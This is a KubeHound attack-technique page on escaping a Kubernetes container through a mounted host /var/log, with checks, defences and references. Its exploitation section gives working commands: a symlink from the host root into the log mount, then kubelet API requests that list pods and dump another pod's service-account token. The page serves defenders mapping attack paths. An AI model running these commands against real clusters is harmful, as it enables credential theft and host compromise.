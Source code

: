 ```yaml
---
title: CE_VAR_LOG_SYMLINK
---
```


<!--
id: CE_VAR_LOG_SYMLINK
name: "Arbitrary file reads on the host"
mitreAttackTechnique: T1552 - Unsecured Credentials
mitreAttackTactic: TA0006 - Credential Access
-->

# CE_VAR_LOG_SYMLINK

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Arbitrary file reads on the host from a node via an exposed `/var/log` mount.

## Details

A pod running as root and with a mount point to the node’s `/var/log` directory can expose the entire contents of its host filesystem to any user who has access to its logs, enabling an attacker to read arbitrary files on the host node. See [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) for a more detailed explanation of the technique.

## Prerequisites

Execution as root within a container process with the host `/var/log/` (or any parent directory) mounted inside the container.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_VAR_LOG_SYMLINK.yaml).

## Checks

Determine mounted volumes within the container as per [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks) If the host `/var/log` (or any parent directory) is mounted, this attack will be possible. Example output below:

```bash
cat /proc/self/mounts

...
/dev/vda1 on /host/var/log type ext4 (rw,relatime)
...
```

```bash
# Examine the directory structure of any hostPath mounts to verify it is the log directory
ls -la /host/var/log
total 24
drwxr-xr-x 5 root root 4096 Mar  2 09:49 .
drwxr-xr-x 3 root root 4096 Mar  8 10:31 ..
-rw-r--r-- 1 root root  775 Mar  4 18:13 alternatives.log
drwxr-xr-x 2 root root 4096 Mar  8 10:46 containers
drwxr-xr-x 3 root root 4096 Mar  2 09:49 kubernetes
drwxr-xr-x 8 root root 4096 Mar  8 10:31 pods

ls -la /host/var/log/pods
total 32
drwxr-xr-x  8 root root 4096 Mar  8 10:31 .
drwxr-xr-x  5 root root 4096 Mar  2 09:49 ..
drwxr-xr-x  3 root root 4096 Mar  8 10:31 default_log-escape-pod_f262a349-c3bb-4561-9496-c3182f8d1256
```

## Exploitation

Setup the symlink:

```bash
ln -s / /host/var/log/root_link
```

Call the kubelet API to read the “logs” and extract pod service account tokens:

```bash
$ KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
$ NODEIP=$(ip route | awk '/^default/{print $3}')
# On Amazon EKS, if you have access to the IMDS: NODEIP=$(curl http://169.254.169.254/latest/meta-data/local-ipv4)

# Find all the pods
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/

# <pre>
# <a href="10b90d62-6b16-4aa7-9e72-75f18dcca5a8/">10b90d62-6b16-4aa7-9e72-75f18dcca5a8/</a>
# <a href="2254e754-fbe0-48c4-b0c8-236a232fa510/">2254e754-fbe0-48c4-b0c8-236a232fa510/</a>
# <a href="324fe80e-e10e-462b-b046-be4c15e91b4e/">324fe80e-e10e-462b-b046-be4c15e91b4e/</a>
# <a href="5a9fc508-8410-444a-bf63-9f11e5979bee/">5a9fc508-8410-444a-bf63-9f11e5979bee/</a>
# <a href="a1176593-34a2-43e6-8bdd-ed10fa148fe7/">a1176593-34a2-43e6-8bdd-ed10fa148fe7/</a>
# <a href="a83a37cf-01ea-4b4c-ad19-f67e374cf255/">a83a37cf-01ea-4b4c-ad19-f67e374cf255/</a>
# <a href="dfbf38ad-2e92-44e0-b05b-8859350b6ea5/">dfbf38ad-2e92-44e0-b05b-8859350b6ea5/</a>
# </pre>

# Dump the token
$ curl -sk -H "Authorization: Bearer $KUBE_TOKEN" https://$NODEIP:10250/logs/root_link/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token

# eyJhbGciOiJSUzI1NiIsImtpZCI6I****REDACTED****
```

Cleanup the symlink when exploitation is complete:

```bash
rm /host/var/log/root_link
```

NOTE: the above assumes the serviceaccount has access to read logs. If *not* replace the token for any user token which should normally have logs access.

## Defences

### Monitoring

+ Monitor for suspicious symlink creation in the `/var/log` directory.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/var/log` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeVarLogSymlink](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_var_log_symlink.go)

## References:

+ [Kubernetes Pod Escape Using Log Mounts](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) 
+ [Kubelet API · Deep Network](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)
